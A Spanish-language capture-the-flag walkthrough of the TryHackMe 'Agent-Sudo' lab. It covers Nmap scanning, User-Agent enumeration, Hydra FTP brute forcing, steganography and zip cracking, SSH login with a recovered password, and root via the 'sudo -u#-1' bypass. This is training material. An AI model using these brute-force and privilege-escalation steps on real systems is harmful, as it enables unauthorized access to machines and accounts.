## **Tutorial: Explotación de la máquina Agent-Sudo en TryHackMe**

## 1. Conexión a la VPN de TryHackMe

Para poder acceder a las máquinas del laboratorio es necesario conectarse primero a la VPN de TryHackMe. Esto crea un túnel cifrado entre la máquina Kali y la red privada del laboratorio.

### 1.1 Conexión mediante OpenVPN

Desde la terminal de Kali ejecutamos el siguiente comando utilizando el archivo .ovpn descargado desde la plataforma:

```bash
sudo openvpn /home/nerea/Descargas/eu-central-1-nereacandonramos-regular.ovpn
```
Si este no funciona, probar el west-3-
Si la conexión se establece correctamente aparecerá el mensaje:

```bash
Initialization Sequence Completed
```

Esto indica que la VPN se ha establecido correctamente.

### 1.2 Verificación de la conexión

Para comprobar que la conexión está activa ejecutamos:

```bash
ip a
```

Esto mostrará una interfaz de red llamada tun0, que corresponde a la conexión VPN con TryHackMe.

## 2. Escaneo de puertos con Nmap

El siguiente paso consiste en identificar los servicios expuestos en la máquina objetivo utilizando Nmap, una herramienta fundamental para el reconocimiento en auditorías de seguridad.

Se ejecuta el siguiente comando:

Escaneo completo de puertos:

```bash
 nmap -p- --open -T4 -Pn 10.128.181.63
```
Esto revela los puertos abiertos: 21 (FTP), 22 (SSH) y 80 (HTTP).



Escaneo de versiones y scripts:

```bash
nmap -sC -sV -p21,22,80 10.128.181.63
```
Analizo los servicios y versiones detectadas.



## 3. Enumeración Web

Accedo a http://10.128.181.63 en el navegador. Aparece un mensaje que sugiere usar un User-Agent personalizado (por ejemplo, "R").



Pruebo con curl:

```bash
curl -A "R" http://10.128.181.63
```


El mensaje cambia y sugiere que hay 25 empleados (A-Z). Pruebo con otros User-Agent:

```bash
curl  http://10.128.181.63 -H "User-Agent: C" -L
```


Con el User-Agent "C" se obtiene un nombre de usuario y la pista de que la contraseña es débil.

## 4. Fuerza Bruta de Credenciales FTP

Como el puerto 21 (FTP) está abierto, prueba fuerza bruta con Hydra usando el usuario encontrado:
```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.128.181.63
```


Cuando consigas la contraseña, conéctate por FTP:
```bash
ftp 10.128.181.63
```


Descargo todos los archivos disponibles (texto e imágenes).

## 5. Análisis de Archivos Descargados

Leo el archivo de texto: suele indicar que las imágenes son falsas y que la contraseña del agente R está oculta en una de ellas.

## 6. Esteganografía en Imágenes

Cuando estemos dentro de ftp miramos lo que hay

```bash
ls
```
Vemos varias imagenes, nos descargamos las imagenes 

Ejemplo, así con todas.
```bash
get cutie.png
```
Analizo las imágenes con binwalk para buscar archivos ocultos:

```bash
binwalk -e cutie.png
```


Luego tengo que viajar a la carpeta que me creó, que será algo asi 

```bash
cd _cutie.png.extracted
```
Lo extraigo. Si está protegido por contraseña que es alien, uso zip2john y John the Ripper:

```bash
zip2john 8702.zip > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```


Descomprimo el zip con la contraseña  que seria alien obtenida y revisa el contenido.

```bash
7z x 8702.zip
```


Miramos el texto escondido en la imagen

```bash
cat To_agentR.txt
 ```


Vamos a usar base64 para desencriptar lo que encontramos en el archivo

```bash
echo 'QXJlYTUx' | base64 -d
```



Uso la contraseña encontrada para extraer información oculta de la otra imagen (por ejemplo, con steghide):

```bash
steghide extract -sf cute-alien.jpg -p Area51
```


Miramos dentro del archivo de message.txt para ver que hay.

cat message.txt



## 7. Acceso SSH

Con las credenciales obtenidas, accedo por SSH:
```bash
ssh james@10.129.186.113
```


La contraseña que usaremos es esta:

```bash
hackerrules!
```

## 8. Escalada de Privilegios

Enumera los permisos sudo:
```bash
sudo -l
```
Si nos sale  ‘(ALL, !root) /bin/bash’ o algo parecido, haremos este comando.

```bash
sudo -u#-1 /bin/bash
```
Nos dará root directamente. Comprobamos si somos root

```bash
whoami
```


Hemos conseguido el máximo privilegio